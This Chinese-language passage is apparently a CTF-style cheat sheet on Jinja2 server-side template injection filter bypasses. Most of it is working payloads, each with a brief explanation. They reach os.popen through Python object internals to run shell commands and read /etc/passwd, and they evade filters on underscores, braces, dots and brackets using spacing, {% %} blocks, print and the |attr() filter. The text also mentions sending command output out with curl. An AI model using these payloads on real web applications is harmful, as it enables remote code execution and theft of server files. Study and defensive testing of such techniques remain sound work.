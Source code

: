 #### 过滤了`._`和`_.`

虽然看起来过滤了`._`和`_.`好像比上述更难, 但是因为python语法的特性, 获取成员对象时`.`后面可加空白字符, 因此可以在两者中间加空格绕过:

```
{{''. __class__ . __mro__ . __getitem__(2) . __subclasses__().pop(40)('/etc/passwd').read()}}
```

#### 过滤了大括号 `{{`

我们可以用Jinja2的 `{%...%}` 语句装载一个循环控制语句来绕过：

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

也可以使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 将执行结果外带（不外带的话无回显）出来：

```
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls /' %}1{% endif %}
```

也可以用 `{%print(......)%}` 的形式来代替 `{{` ，如下：

```
{%print(''.__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read())%}
```

###  利用 `|attr()` 来Bypass

这里说一个新东西，就是原生JinJa2函数 `attr()`，这是一个 `attr()` 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（ `|` ）分割。如：

```
foo|attr("bar")   等同于   foo["bar"]
```

`|attr()` 配合其他姿势可同时绕过双下划线 `__` 、引号、点 `.` 和 `[` 等，下面给出示例。

#### 同时过滤了 . 和 []

过滤了以下字符：

```
.    [
```

绕过姿势：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

等同于：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```
